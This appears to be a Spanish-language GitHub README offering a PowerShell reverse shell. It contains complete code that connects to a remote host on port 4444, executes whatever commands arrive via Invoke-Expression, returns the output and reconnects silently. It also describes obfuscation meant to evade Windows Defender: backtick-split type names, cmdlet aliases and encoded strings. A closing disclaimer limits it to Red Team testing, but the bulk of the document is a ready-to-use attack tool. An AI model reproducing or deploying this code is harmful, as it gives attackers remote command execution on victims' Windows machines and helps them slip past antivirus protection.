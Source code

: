 # Reverse Shell Bypass Windows PowerShell

Este script de PowerShell es un cliente de shell inverso, permite eludir de manera efectiva la seguridad de Windows Defender. El script recibe datos del servidor remoto a través de una conexión TCP. Estos datos se leen en un búfer, que es simplemente un bloque de memoria reservado para almacenar los datos temporales. En este caso, el búfer es un array de bytes con una longitud de 1024.
Dentro del bucle de lectura, el script lee los datos del búfer y los decodifica utilizando la codificación ASCII. 

## POC
[![Bypass Reverse Shell Windows Defender](https://i.imgur.com/M968BwB.png)](https://www.google.com)

## Funciones

1. **Conexión TCP**: El script intenta establecer una conexión TCP con un servidor remoto.

2. **Ejecución de comandos**: Los comandos enviados por el servidor remoto se ejecutan en la máquina local.

3. **Envío de la salida del comando**: La salida de los comandos ejecutados se envía de vuelta al servidor remoto.

4. **Reconexión automática**: Si la conexión se cierra por cualquier motivo, el script intentará reconectar después de un intervalo de tiempo especificado.

## Bypass Logico

El script utiliza varias técnicas para eludir Windows Defender sin necesidad de **third party tools**. 

- **Alias de cmdlets**: Se utilizan alias para los cmdlets de PowerShell para hacer que el código sea menos reconocible.

- **Codificación de cadenas**: Las cadenas en el código están codificadas para evitar la detección por parte de las soluciones de seguridad basadas en firmas.

- **Reintentos de conexión silenciosos**: Si la conexión se cierra, el script intentará reconectar silenciosamente.

```
# Author: Omar Salazar
# Define constants
$ip = "192.168.1.1" 
$port = 4444
$retryInterval = 10  
$maxRetries = 5  

# Create aliases for cmdlets
Set-Alias -Name "n" -Value "New-Object"
Set-Alias -Name "s" -Value "Start-Sleep"
Set-Alias -Name "g" -Value "Get-Location"

# Main loop
do {
    # Create TCP client
    $c = n S`ySt`em.N`eT.`s`ock`eTs.TC`PC`li`eNt($ip, $port)
    $s = $c.GetStream()

    # Buffer for incoming data
    $b = n Byt`e[] 1024
    $d = ""

    # Read loop
    while (($x = $s.Read($b, 0, $b.Length)) -ne 0) {
        # Decode and execute command
        $e = (n -TypeName System.Text.ASCIIEncoding).GetString($b,0, $x)
        $f = (iex $e 2>&1 | Out-String)

        # Prepare and send response
        $g = $f + (g).Path + '> '
        $h = ([text.encoding]::ASCII).GetBytes($g)
        $s.Write($h,0,$h.Length)
        $s.Flush()
    }

    # Close connection and wait before trying again
    $c.Close()
    s -Seconds $retryInterval
    $maxRetries--
} while ($maxRetries -gt 0)
```

## Descripción

Aquí, `n -TypeName System.Text.ASCIIEncoding` crea un nuevo objeto de tipo `System.Text.ASCIIEncoding`, que es una clase en .NET que proporciona métodos para codificar y decodificar texto en ASCII. Luego, el método GetString de este objeto se utiliza para decodificar los bytes en el búfer en una cadena de texto.

Una vez que los datos se han decodificado en una cadena de texto, se ejecutan como un comando de PowerShell con `iex $e 2>&1 | Out-String. iex` es un alias para `Invoke-Expression`, que ejecuta una cadena de texto como un comando de PowerShell. `2>&1` redirige los errores a la salida estándar, y `Out-String` convierte la salida en una cadena de texto.

## Advertencia

Este script puede ser utilizado para fines maliciosos si cae en las manos equivocadas. Es de uso exclusivo para pruebas de Red Team, asegúrate de entender completamente lo que hace un script antes de ejecutarlo. No me hago responsables de cualquier uso indebido de este script.
